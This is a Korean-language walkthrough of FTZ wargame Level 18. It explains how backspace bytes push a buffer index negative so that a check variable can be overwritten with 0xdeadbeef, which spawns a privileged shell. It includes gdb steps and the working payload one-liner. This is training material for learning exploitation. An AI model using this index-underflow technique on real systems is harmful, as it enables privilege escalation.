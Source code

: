 # FTZ Level18

#### ID : level18 PW: why did you do it
<br>

우선 hint의 내용을 보자<br>
```cat hint```<br>
![level18_hint](https://user-images.githubusercontent.com/58061467/91567097-8a61b900-e97f-11ea-8c89-65ba97171030.png)


~~(코드가 매우 길다...)~~<br>

코드를 보면 check 변수 값이 0xdeadbeef면 shellout 함수가 호출돼 level19권한으로 /bin/sh이 실행된다.<br>
하지만 string[100]보다 check변수가 뒤에 존재하므로 전에 풀던 방식으로 풀 수는 없다!<br>
다만 0x08 입력이 들어오면 count 변수가 1 감소하는데 이 count 변수는 string 배열의 인덱스를 조절하므로 이 배열의 인덱스가 마이너스가 되도록 하면 앞의 메모리에 접근이 가능할 것이다.!<br>
즉 string 배열로 check 변수에 접근이 가능하다는 것이다.<br>

우리의 목적을 생각해보자.<br>
1. string[100]에서 check까지 거리 구하기
2. check에 0xdeadbeef 덮어씌우기
3. 공격!

attackme 파일을 tmp로 옮기고 디버깅해보자<br>
```
gdb -q attackme
set disas intel
disas main
```

<main+499>를 보면 string에서 ebp까지의 거리가 100인 것을 알 수 있고<br>
<main+91>을 보면 check에서 ebp까지의 거리가 104인 것을 알 수 있다.<br>
따라서 string에서 check까지의 거리는 -4이다.<br>

0x08을 입력해 count 변수가 1 감소하는 것을 이용해 페이로드를 작성해보자.<br>
```(python -c 'print "\x08"*4+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "\x08"*4+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level19 Password is "~~". 라고 나올 것이다!!
